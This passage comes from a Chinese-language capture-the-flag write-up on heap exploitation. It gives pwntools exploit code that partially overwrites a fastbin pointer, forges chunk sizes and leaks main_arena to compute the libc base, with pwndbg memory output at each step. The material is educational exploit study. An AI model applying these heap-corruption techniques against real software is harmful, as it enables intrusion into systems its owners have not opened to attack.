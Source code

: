 当我们编辑 idx0 后，确实已经将其指向idx4了。这里之所以可以成功是因为堆的始终是 4KB 对齐的，所以idx 4的起始地址的第一个字节必然是0x80。

```python
    # edit idx 0 chunk to particial overwrite idx1's fd to point to idx4
    payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
    fill(0, len(payload), payload)
```

修改成功后如下

```shell
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000:	0x0000000000000000	0x0000000000000021
0x55a03ca22010:	0x6161616161616161	0x6161616161616161
0x55a03ca22020:	0x0000000000000000	0x0000000000000021
0x55a03ca22030:	0x000055a03ca22080	0x0000000000000000
0x55a03ca22040:	0x0000000000000000	0x0000000000000021
0x55a03ca22050:	0x0000000000000000	0x0000000000000000
0x55a03ca22060:	0x0000000000000000	0x0000000000000021
0x55a03ca22070:	0x0000000000000000	0x0000000000000000
0x55a03ca22080:	0x0000000000000000	0x0000000000000091
0x55a03ca22090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22080 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

那么，当我们再次申请两个时，第二个申请到的就是idx 4处的chunk。为了能够申请成功，我们需要确保 idx4 的size 与当前 fastbin 的大小一致，所以，我们得修改它的大小。申请成功后，idx2会指向idx4。

```python
    # if we want to allocate at idx4, we must set it's size as 0x21
    payload = 0x10 * 'a' + p64(0) + p64(0x21)
    fill(3, len(payload), payload)
    allocate(0x10)  # idx 1
    allocate(0x10)  # idx 2, which point to idx4's location
```

之后，如果我们想要将 idx 4 放到 unsorted bin 中的话，为了防止其与top chunk 合并，我们需要再次申请一个chunk。此后再释放 idx4 就会进入 unsorted bin中去了。此时由于 idx2 也指向这个地址，所以我们直接展示他的内容就可以得到unsorted bin的地址了。

```python
    # if want to free idx4 to unsorted bin, we must fix its size
    payload = 0x10 * 'a' + p64(0) + p64(0x91)
    fill(3, len(payload), payload)
    # allocate a chunk in order when free idx4, idx 4 not consolidate with top chunk
    allocate(0x80)  # idx 5
    free(4)
    # as idx 2 point to idx4, just show this
    dump(2)
    p.recvuntil('Content: \n')
    unsortedbin_addr = u64(p.recv(8))
    main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
    log.success('main arena addr: ' + hex(main_arena))
    main_arena_offset = 0x3c4b20
    libc_base = main_arena - main_arena_offset
    log.success('libc base addr: ' + hex(libc_base))
```
